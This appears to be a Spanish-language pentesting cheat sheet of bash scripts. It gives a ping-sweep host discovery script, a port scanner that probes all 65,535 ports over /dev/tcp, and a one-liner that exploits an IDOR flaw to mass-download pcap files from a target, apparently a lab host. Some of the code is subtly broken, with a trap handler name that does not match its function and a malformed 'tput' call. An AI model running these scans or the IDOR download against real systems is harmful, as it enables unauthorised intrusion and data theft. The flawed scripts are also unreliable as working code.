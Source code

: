 # BASH

En este apartado iremos poniendo utilidades y scripts en bash.

## Host discovery

Script para descubrir host dentro de una red:

```bash
#!/bin/bash

function control_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm
	exit 0
}

# Ctlr+C
trap ctlr_c INT

tput .civis

for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 192.168.11.$i" &>/dev/null && echo "[+] El host 192.168.11.$i - ACTIVE" &
done

wait
tput cnorm
```

Y en modo OneLinner:

```bash
echo 10.0.15.{1..255} | xargs parallel -j30 ping -c1 -- | grep 'bytes from'
```

## Port discovery

Script para descubrir puertos abiertos de un maquina:

```bash
#!/bin/bash

function ctlr_c(){
    echo -e "\n\n[!] Saliendo...\n"
    tput cnorm
    exit 1
}

# Ctlr+C
trap ctlr_c INT

tput civis
for port in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/192.168.11.160/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done
wait
tput cnorm
```

## Descarga IDOR

Script que aprovecha un idor para descargar de forma masiva en modo **oneliner**:

```bash
for i in {0..500} ; do wget http://10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; done; rm pcaps/${i}.pcap
```
